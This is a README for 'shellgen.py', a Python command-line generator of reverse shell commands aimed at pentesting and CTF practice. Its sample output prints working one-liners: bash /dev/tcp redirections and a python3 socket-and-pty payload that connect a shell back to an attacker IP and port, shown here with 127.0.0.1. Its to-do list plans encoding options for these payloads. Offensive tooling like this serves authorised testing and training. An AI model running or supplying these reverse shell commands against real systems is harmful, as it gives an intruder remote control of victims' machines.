 # Shellgen.py 

## The idea for this project is for some practice python, as well as to make a useful tool for pentesting / CTF's

## The tool is used to generate various types of reverse shell commands from the CLI.

## The usage is very simple

    usage: shellgen.py [-h] [-p <attacker port>] [-m method to use] <attacker ip>
    
    Command line reverse shell generator
    
    positional arguments:
      <attacker ip>       Attacker ip address to receive the connection back from victim machine
    
    optional arguments:
      -h, --help          show this help message and exit
      -p <attacker port>  Attacker port to listen on. Default = 1337
      -m method to use    A comma seperated list of reverse shell methods. Default is bash,python3,nc
 

## Samples 
- basic usage uses the three default methods, bash python3, and nc and default port l337

    
    python3 shellgen.py 127.0.0.1

    ['bash', 'python3', 'nc']
    
    bash: 
      bash -i >& /dev/tcp/127.0.0.1/1337 0>&1 
      0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; sh <&196 >&196 2>&196 
      /bin/bash -l > /dev/tcp/127.0.0.1/1337 0<&1 2>&1
    
    python3: 
      export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'

- specifying a method and port
    
    python3 shellgen.py 127.0.0.1 -m bash -p 9001

    ['bash']

    bash: 
      bash -i >& /dev/tcp/127.0.0.1/9001 0>&1 
      0<&196;exec 196<>/dev/tcp/127.0.0.1/9001; sh <&196 >&196 2>&196 
      /bin/bash -l > /dev/tcp/127.0.0.1/9001 0<&1 2>&1
                                                           


## To do
- Add more methods for rev shells
- add more functionality like base64 or url encoding
- add option to save to file
